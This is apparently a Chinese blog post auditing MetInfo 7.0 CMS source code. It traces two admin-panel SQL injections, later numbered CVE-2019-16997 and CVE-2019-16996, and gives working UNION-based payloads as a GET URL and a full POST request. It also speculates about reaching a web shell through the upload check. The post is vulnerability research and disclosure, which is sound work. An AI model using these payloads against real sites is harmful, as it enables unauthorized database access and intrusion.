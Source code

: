 ```yaml
---
title: "Metinfo7 后台注入及一些tips"
date: 2019-09-28T22:11:39+08:00
lastmod: 2019-09-28T22:11:39+08:00
draft: false
tags: ['code']
categories: ['代码审计']
comment: true
---
```


很可惜是个后台的注入

<!--more-->

跟汤姆表哥再搞创宇的年度任务🤒，昨天发了metinfo6.2.0的组合拳，今天看了看官网有最新版的7.0，就下下来看了看，发现两枚注入，而且昨天的组合拳虽然增加了后缀校验，绕不过去了，呜呜呜。

# sql injection 1

全局搜索`where`

app/system/parameter/include/class/parameter_op.class.php:165

```php
public function paratem($listid = '',$module = '',$class1 = '',$class2 = '',$class3 = ''){
    global $_M;

    $paralist = $this->get_para_list($module,$class1,$class2,$class3);
    foreach ($paralist as $key => $para) {
        $list = $this->parameter_database->get_parameters($module,$para['id']);
        $paralist[$key]['list'] = $list;
        if($para['type'] ==4 || $para['type'] ==2 || $para['type'] ==6){
            $values = array();
            foreach ($list as $val) {
                $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND info = '{$val['id']}' AND lang = '{$_M['lang']}'";
                $para_value = DB::get_one($query);
                if($para_value){
                    $values[] = $para_value['info'];
                }
            }
            $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND lang = '{$_M['lang']}'";
            $para_value = DB::get_one($query);
            $values = $para_value['info'];
        }else{
            $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND lang = '{$_M['lang']}'";
            $para_value = DB::get_one($query);
            $values = $para_value['info'];
        }


        if(is_array($values)){
            $paralist[$key]['value'] = implode('|', $values);
        }else{
            $paralist[$key]['value'] = $values;
        }
    }
    return $paralist;
    ##require PATH_WEB.'app/system/include/public/ui/admin/paratype.php';
}
```

发现`{$listid}`直接被拼接进sql语句，且`listid`是函数直接传进来的参数，搜索哪些函数调用了这个函数

![20190928221736](https://y4er.com/img/uploads/20190928221736.png)

app/system/product/admin/product_admin.class.php:171

```php
public function dopara() {
    global $_M;
    if($_M['form']['app_type']=='shop'){
        $class1 = $_M['form']['class1'];
        $class2 = $_M['form']['class2'];
        $class3 = $_M['form']['class3'];
        $paralist = $this->para_op->paratem($_M['form']['id'],$this->module,$class1,$class2,$class3);
        require PATH_WEB . 'app/system/include/public/ui/admin/paratype.php';
    }else{
        parent::dopara();
    }
}
```

`$_M['form']['id']`可控，那么sql语句就可控。

payload

```
http://php.local/admin/?n=product&c=product_admin&a=dopara&app_type=shop&id=2 union SELECT 1,2,3,user(),5,6,7 limit 5,1  -- +
```

# sql injection 2

app/system/language/admin/language_general.class.php:108

```php
public function doget_admin_pack($appno,$site,$editor)
{
    global $_M;
    $sql = $appno ? "AND app = {$appno}" : '';
    $language_data = array();
    if ($site == 'admin') {
        $query = "SELECT name,value FROM {$_M['table']['language']} WHERE lang='{$editor}' AND site ='1' {$sql}";
        $language_data = DB::get_all($query);
        $lang_pack_url = PATH_WEB . 'cache/language_admin_' . $editor . '.ini';
    } else if ($site == 'web') {
        $query = "SELECT name,value FROM {$_M['table']['language']} WHERE lang='{$editor}' AND site ='0' {$sql}";
        $language_data = DB::get_all($query);
        $lang_pack_url = PATH_WEB . 'cache/language_web_' . $editor . '.ini';
    }

    foreach ($language_data as $key => $val) {
        file_put_contents($lang_pack_url, $val['name'] . '=' . $val['value'] . PHP_EOL, FILE_APPEND);
    }
}
```

`$appno`直接拼接 当`site`等于web或者admin时造成sql注入

找下有没有调用这个函数传参的

app/system/language/admin/language_general.class.php:90

```php
public function doExportPack()
{
    global $_M;

    if (!isset($_M['form']['editor']) || !$_M['form']['editor']) {
        $this->error($_M['word']['js41']);
    }

    $editor = $_M['form']['editor'];
    $site = isset($_M['form']['site']) ? $_M['form']['site'] : '';
    $appno = $_M['form']['appno'] ? $_M['form']['appno'] : '';
    $filename = PATH_WEB . 'cache/language_' . $site . '_' . $editor . '.ini';

    delfile($filename);

    //获取后台语言包
    $this->doget_admin_pack($appno,$site,$editor);

    $filename = realpath($filename);
    header("");
    Header("Content-type:  application/octet-stream ");
    Header("Accept-Ranges:  bytes ");
    Header("Accept-Length: " . filesize($filename));
    header("Content-Disposition:  attachment;  filename=language_{$site}_" . $appno .'_'. $editor . ".ini");
    //写日志
    $log_name = $_M['form']['site'] ? 'langadmin' : 'langweb';
    logs::addAdminLog($log_name,'language_outputlang_v6','jsok','doExportPack');
    readfile($filename);
}
```

看下代码，首先要传递参数`editor`跳出第一个if语句块，然后`site`和`appno`直接传入`doget_admin_pack()`函数，参数都可控，妥妥的注入。

payload

```http
POST /admin/?n=language&c=language_general&a=doExportPack HTTP/1.1
Host: php.local
Content-Length: 58
Origin: http://php.local
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: XDEBUG_SESSION=PHPSTORM; PHPSESSID=40d2af28a4c309bbb824dc957af59b11; arrlanguage=metinfo; re_url=http%3A%2F%2Fphp.local%2Fadmin%2F; met_auth=65acz4xG7IkP%2BqmPuO%2FIvPsKt4luK6Te34p%2F2BHXEosgKHUwk8dKQRHs7y4Ea9mCH1egudtuz%2Bl02L3eIhMLs7%2FDMw; met_key=PLBqK9J; page_iframe_url=http%3A%2F%2Fphp.local%2Findex.php%3Flang%3Dcn%26pageset%3D1
Connection: close

appno= 1 union SELECT user(),database()&editor=cn&site=web
```

![20190928223704](https://y4er.com/img/uploads/20190928223704.png)

# 组合拳

在前文中提到了metinfo6.2.0配合注入getshell的姿势，但是在metinfo7.0中增加了后缀校验，无法getshell，很可惜。

app/system/include/class/web.class.php:757

```php
if (stristr($filename, '.php')) {
    jsoncallback(array('suc' => 0));
}
```

但是这个点仍然可以上传其他后缀的文件，通过这个点配合解析漏洞或者文件包含来getshell未免不可行。

想到了htaccess和.user.ini的同学别费力气了，写文件没办法换行，如果有师傅有新姿势，欢迎评论指点啊！

# 总结

metinfo7.0的注入实际上还有很多，不过很多都是delete型的注入，我在这里挑了两个回显的注入，欢迎师傅们补充交流。

CVE-2019-16997
CVE-2019-16996

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
